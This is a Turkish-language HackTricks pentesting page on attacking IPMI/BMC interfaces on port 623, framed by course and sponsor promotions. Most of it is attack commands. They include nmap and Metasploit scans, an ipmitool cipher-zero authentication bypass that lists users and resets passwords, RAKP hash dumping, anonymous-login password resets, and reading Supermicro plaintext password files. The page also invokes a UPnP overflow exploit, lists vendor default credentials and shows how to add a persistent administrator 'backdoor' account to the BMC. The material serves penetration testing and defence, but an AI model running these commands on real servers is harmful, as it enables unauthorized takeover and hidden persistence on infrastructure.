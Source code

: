 # 623/UDP/TCP - IPMI

## 623/UDP/TCP - IPMI

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** bizi takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}

<figure><img src="/.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

**8kSec Akademisi** ile **Mobil Güvenlik** konusundaki uzmanlığınızı derinleştirin. Kendi hızınıza uygun kurslarımızla iOS ve Android güvenliğini öğrenin ve sertifika kazanın:

{% embed url="https://academy.8ksec.io/" %}


## Temel Bilgiler

### **IPMI Genel Bakış**

**[Akıllı Platform Yönetim Arayüzü (IPMI)](https://www.thomas-krenn.com/en/wiki/IPMI_Basics)**, işletim sisteminden veya güç durumundan bağımsız olarak bilgisayar sistemlerinin uzaktan yönetimi ve izlenmesi için standart bir yaklaşım sunar. Bu teknoloji, sistem yöneticilerinin sistemleri uzaktan yönetmelerine olanak tanır, hatta sistem kapalı veya yanıt vermediğinde bile, ve özellikle şunlar için faydalıdır:

- OS öncesi önyükleme yapılandırmaları
- Güç kapalı yönetimi
- Sistem arızalarından kurtarma

IPMI, sıcaklıkları, voltajları, fan hızlarını ve güç kaynaklarını izleme yeteneğine sahiptir, ayrıca envanter bilgileri sağlama, donanım günlüklerini gözden geçirme ve SNMP aracılığıyla uyarılar gönderme işlevi de vardır. İşlemi için gerekli olanlar bir güç kaynağı ve bir LAN bağlantısıdır.

Intel tarafından 1998'de tanıtıldığından beri, IPMI birçok satıcı tarafından desteklenmektedir ve uzaktan yönetim yeteneklerini artırmaktadır, özellikle 2.0 sürümünün LAN üzerinden seri desteği ile. Ana bileşenler şunlardır:

- **Ana Kart Yönetim Kontrolcüsü (BMC):** IPMI işlemleri için ana mikro denetleyici.
- **İletişim Araçları ve Arayüzleri:** ICMB, IPMB ve yerel ve ağ bağlantıları için çeşitli arayüzler dahil olmak üzere iç ve dış iletişim için.
- **IPMI Belleği:** Günlükleri ve verileri depolamak için.

![https://blog.rapid7.com/content/images/post-images/27966/IPMI-Block-Diagram.png#img-half-right](https://blog.rapid7.com/content/images/post-images/27966/IPMI-Block-Diagram.png#img-half-right)

**Varsayılan Port**: 623/UDP/TCP (Genellikle UDP'de bulunur ama TCP'de de çalışıyor olabilir)

## Sayım

### Keşif
```bash
nmap -n -p 623 10.0.0./24
nmap -n-sU -p 623 10.0.0./24
use  auxiliary/scanner/ipmi/ipmi_version
```
Sürümü **belirleyebilirsiniz**:
```bash
use auxiliary/scanner/ipmi/ipmi_version
nmap -sU --script ipmi-version -p 623 10.10.10.10
```
### IPMI Açıkları

IPMI 2.0 alanında, Dan Farmer tarafından önemli bir güvenlik açığı keşfedildi ve bu açık **cipher type 0** aracılığıyla ortaya çıktı. Bu açık, [Dan Farmer'ın araştırmasında](http://fish2.com/ipmi/cipherzero.html) ayrıntılı olarak belgelenmiştir ve geçerli bir kullanıcı hedef alındığında, herhangi bir şifre ile yetkisiz erişim sağlar. Bu zayıflık, HP, Dell ve Supermicro gibi üreticilerin çeşitli BMC'lerinde bulundu ve tüm IPMI 2.0 uygulamalarında yaygın bir sorun olduğunu göstermektedir.

### **Cipher 0 ile IPMI Kimlik Doğrulama Atlatma**

Bu açığı tespit etmek için aşağıdaki Metasploit yardımcı tarayıcısı kullanılabilir:
```bash
use auxiliary/scanner/ipmi/ipmi_cipher_zero
```
Bu açığın istismarı `ipmitool` ile mümkündür, aşağıda gösterildiği gibi, kullanıcı şifrelerinin listelenmesi ve değiştirilmesine olanak tanır:
```bash
apt-get install ipmitool # Installation command
ipmitool -I lanplus -C 0 -H 10.0.0.22 -U root -P root user list # Lists users
ipmitool -I lanplus -C 0 -H 10.0.0.22 -U root -P root user set password 2 abc123 # Changes password
```
### **IPMI 2.0 RAKP Kimlik Doğrulama Uzak Şifre Hashi Alma**

Bu zafiyet, mevcut herhangi bir kullanıcı adı için tuzlu hashlenmiş şifrelerin (MD5 ve SHA1) alınmasını sağlar. Bu zafiyeti test etmek için Metasploit bir modül sunar:
```bash
msf > use auxiliary/scanner/ipmi/ipmi_dumphashes
```
### **IPMI Anonim Kimlik Doğrulama**

Birçok BMC'deki varsayılan yapılandırma, boş kullanıcı adı ve şifre dizeleri ile karakterize edilen "anonim" erişime izin verir. Bu yapılandırma, `ipmitool` kullanarak adlandırılmış kullanıcı hesaplarının şifrelerini sıfırlamak için istismar edilebilir:
```bash
ipmitool -I lanplus -H 10.0.0.97 -U '' -P '' user list
ipmitool -I lanplus -H 10.0.0.97 -U '' -P '' user set password 2 newpassword
```
### **Supermicro IPMI Düz Metin Parolaları**

IPMI 2.0'daki kritik bir tasarım tercihi, kimlik doğrulama amaçları için BMC'lerde düz metin parolalarının depolanmasını gerektirir. Supermicro'nun bu parolaları `/nv/PSBlock` veya `/nv/PSStore` gibi yerlerde depolaması önemli güvenlik endişeleri doğurmaktadır:
```bash
cat /nv/PSBlock
```
### **Supermicro IPMI UPnP Açığı**

Supermicro'nun IPMI firmware'ında, özellikle UDP port 1900'de bir UPnP SSDP dinleyicisi bulundurması, ciddi bir güvenlik riski oluşturur. [Rapid7'nin ifşasında](https://blog.rapid7.com/2013/01/29/security-flaws-in-universal-plug-and-play-unplug-dont-play) detaylandırıldığı gibi, UPnP Cihazları için Intel SDK sürüm 1.3.1'deki açıklar, BMC'ye root erişimi sağlar:
```bash
msf> use exploit/multi/upnp/libupnp_ssdp_overflow
```
### Brute Force

**HP, üretim sırasında varsayılan şifreyi rastgele hale getirir** **Integrated Lights Out (iLO)** ürünü için. Bu uygulama, genellikle **statik varsayılan kimlik bilgileri** kullanan diğer üreticilerle tezat oluşturur. Çeşitli ürünler için varsayılan kullanıcı adları ve şifrelerin bir özeti aşağıda verilmiştir:

- **HP Integrated Lights Out (iLO)**, varsayılan şifre olarak **fabrika rastgele 8 karakterli bir dize** kullanır ve bu da daha yüksek bir güvenlik seviyesini gösterir.
- **Dell'in iDRAC, IBM'in IMM** ve **Fujitsu'nun Entegre Uzaktan Yönetim Kontrolörü** gibi ürünler, sırasıyla "calvin", "PASSW0RD" (sıfır ile) ve "admin" gibi kolay tahmin edilebilir şifreler kullanır.
- Benzer şekilde, **Supermicro IPMI (2.0), Oracle/Sun ILOM** ve **ASUS iKVM BMC** de "ADMIN", "changeme" ve "admin" gibi basit varsayılan kimlik bilgileri kullanmaktadır.


## Accessing the Host via BMC

Ana Kart Yönetim Kontrolörü (BMC) üzerinden yönetimsel erişim, ana bilgisayarın işletim sistemine erişim için çeşitli yollar açar. Basit bir yaklaşım, BMC'nin Klavye, Video, Fare (KVM) işlevselliğini kullanmaktır. Bu, ana bilgisayarı GRUB üzerinden bir root shell'e yeniden başlatarak (`init=/bin/sh`) veya kurtarma diski olarak ayarlanmış sanal bir CD-ROM'dan başlatarak yapılabilir. Bu tür yöntemler, ana bilgisayarın diskini doğrudan manipüle etmeye, arka kapılar eklemeye, veri çıkarmaya veya güvenlik değerlendirmesi için gerekli herhangi bir eylemi gerçekleştirmeye olanak tanır. Ancak, bu ana bilgisayarı yeniden başlatmayı gerektirir, bu da önemli bir dezavantajdır. Yeniden başlatmadan, çalışan ana bilgisayara erişim daha karmaşık hale gelir ve ana bilgisayarın yapılandırmasına bağlı olarak değişir. Ana bilgisayarın fiziksel veya seri konsolu oturum açmış durumda kalırsa, BMC'nin KVM veya LAN üzerinden seri (sol) işlevselliği aracılığıyla `ipmitool` kullanılarak kolayca ele geçirilebilir. Paylaşılan donanım kaynaklarının, örneğin i2c veri yolu ve Süper I/O çipi gibi, istismarını araştırmak, daha fazla inceleme gerektiren bir alandır.

## Introducing Backdoors into BMC from the Host

BMC ile donatılmış bir ana bilgisayarı tehlikeye attıktan sonra, **yerel BMC arayüzü, arka kapı kullanıcı hesabı eklemek için kullanılabilir**, sunucuda kalıcı bir varlık oluşturur. Bu saldırı, tehlikeye atılmış ana bilgisayarda **`ipmitool`** bulunmasını ve BMC sürücü desteğinin etkinleştirilmesini gerektirir. Aşağıdaki komutlar, kimlik doğrulama gereksinimini atlayarak ana bilgisayarın yerel arayüzü kullanılarak BMC'ye yeni bir kullanıcı hesabının nasıl enjekte edilebileceğini göstermektedir. Bu teknik, Linux, Windows, BSD ve hatta DOS dahil olmak üzere geniş bir işletim sistemi yelpazesine uygulanabilir.
```bash
ipmitool user list
ID  Name        Callin  Link Auth    IPMI Msg  Channel Priv Limit
2  ADMIN            true    false      false      Unknown (0x00)
3  root            true    false      false      Unknown (0x00)

ipmitool user set name 4 backdoor
ipmitool user set password 4 backdoor
ipmitool user priv 4 4
ipmitool user list
ID  Name        Callin  Link Auth    IPMI Msg  Channel Priv Limit
2  ADMIN            true    false      false      Unknown (0x00)
3  root            true    false      false      Unknown (0x00)
4  backdoor        true    false      true      ADMINISTRATOR
```
## Shodan

* `port:623`

## References

* [https://blog.rapid7.com/2013/07/02/a-penetration-testers-guide-to-ipmi/](https://blog.rapid7.com/2013/07/02/a-penetration-testers-guide-to-ipmi/)


<figure><img src="/.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

**Mobil Güvenlik** konusundaki uzmanlığınızı 8kSec Akademi ile derinleştirin. Kendi hızınıza uygun kurslarımızla iOS ve Android güvenliğini öğrenin ve sertifika kazanın:

{% embed url="https://academy.8ksec.io/" %}


{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter**'da **bizi takip edin** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}
